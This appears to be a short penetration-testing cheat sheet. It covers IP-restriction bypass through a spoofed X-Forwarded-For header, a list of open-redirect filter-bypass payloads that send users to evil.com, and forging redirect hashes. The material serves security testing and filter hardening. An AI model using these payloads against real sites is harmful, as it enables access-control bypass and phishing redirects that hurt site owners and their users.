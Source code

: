 # IP RESTRICTION BYPASS
"X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain<br>
Example: ?redirect=https://example.com --> ?redirect=https://evil.com<br>
Bypass the filter when protocol is blacklisted using //<br>
Example: ?redirect=https://example.com --> ?redirect=//evil.com<br>
Bypass the filter when double slash is blacklisted using \\<br>
Example: ?redirect=https://example.com --> ?redirect=\evil.com<br>
Bypass the filter when double slash is blacklisted using http: or https:<br>
Example: ?redirect=https://example.com --> ?redirect=https:example.com<br>
Bypass the filter using %40<br>
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com<br>
Bypass the filter if it only checks for domain name<br>
Example: ?redirect=example.com --> ?redirect=example.comevil.com<br>
Bypass the filter if it only checks for domain name using a dot %2e<br>
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com<br>
Bypass the filter if it only checks for domain name using a query/question mark ?<br>
Example: ?redirect=example.com --> ?redirect=evil.com?example.com<br>
Bypass the filter if it only checks for domain name using a hash %23<br>
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com<br>
Bypass the filter using a ° symbol<br>
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com<br>
Bypass the filter using a url encoded Chinese dot %E3%80%82<br>
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com<br>
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a<br>
Example: ?redirect=/ --> ?redirect=/%0d/evil.com<br>
# HASH REDIRECTION
some sites may use hash to identify if redirect link is valid
http://sample.com/?url=https://valid_redirect.com&hash=encrypted_hash_value
just generate hash for needed website
# SOCKETS
Do not forget to emulate user input when sending data(add "\n")<br>
